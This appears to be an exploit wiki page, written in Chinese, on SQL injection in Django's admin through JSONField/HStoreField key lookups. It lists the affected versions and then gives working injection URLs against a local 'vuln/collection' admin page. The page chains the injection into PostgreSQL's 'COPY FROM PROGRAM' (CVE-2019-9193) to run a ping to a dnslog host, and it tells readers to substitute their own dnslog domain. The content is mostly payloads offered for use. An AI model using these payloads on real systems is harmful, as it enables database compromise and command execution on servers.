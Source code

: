 <languages   />

影响版本
--------

    Django 2.2.x < 2.2.4

    Django 2.1.x < 2.1.11

    Django 1.11.x < 1.11.23

漏洞利用
--------

<div lang="chinese" dir="ltr" class="mw-content-ltr">
首先需登錄管理員後臺，訪問模型Collection的管理頁面：

</div>
    http://127.0.0.1/admin/vuln/collection/

    http://127.0.0.1/admin/vuln/collection/?detail__a%27

    http://127.0.0.1/admin/vuln/collection/?detail__a%27)%3D%271%27%20or%201%3d1%20--

<div lang="chinese" dir="ltr" class="mw-content-ltr">
Django一般與PostgreSQL一起配合使用，可以嘗試利用PostgreSQL 高權限命令執行漏洞[(CVE-2019-9193)](https://www.pwnwiki.org/index.php?title=CVE-2019-9193_PostgreSQL_%E9%AB%98%E6%AC%8A%E9%99%90%E5%91%BD%E4%BB%A4%E5%9F%B7%E8%A1%8C%E6%BC%8F%E6%B4%9E)

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
訪問以下URL：

</div>
    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcreate%20table%20cmd_execs(cmd_output%20text)--%20

<div lang="chinese" dir="ltr" class="mw-content-ltr">
回顯`no results to fetch` 語句成功執行。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
訪問：

</div>
    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcopy%20cmd_execs%20FROM%20PROGRAM%20%27ping%20test.dnslog.cn%20%27--%20

<div lang="chinese" dir="ltr" class="mw-content-ltr">
命令成功執行。

</div>
### ⚠️️

<div lang="chinese" dir="ltr" class="mw-content-ltr">
`test.dnslog.cn`請修改爲自己的Dnslog

</div>
